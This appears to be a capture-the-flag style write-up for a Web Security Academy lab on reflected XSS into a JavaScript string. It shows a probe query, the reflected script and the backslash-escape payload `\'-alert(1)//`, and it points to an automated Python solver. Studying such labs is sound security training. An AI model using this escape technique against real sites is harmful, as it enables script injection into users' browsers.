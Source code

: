 # XSS LAB 19 - Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

## Manual Solution

### 1. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 2. Analyze the Vulnerability
- Perform a search with the following query: ` ' " / \ < > `
- Open the inspect and locate the script.
```js
<script>
    var searchTerms = ' \' &quot; / \ &lt; &gt; ';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
- We can see that the single quote (') is escaped but the backslash and slash (/) are not escaped.

### 3. Inject the XSS payload
- Perform a search with the following query: `\'-alert(1)//`
- An alert pop-up appears.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_19.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```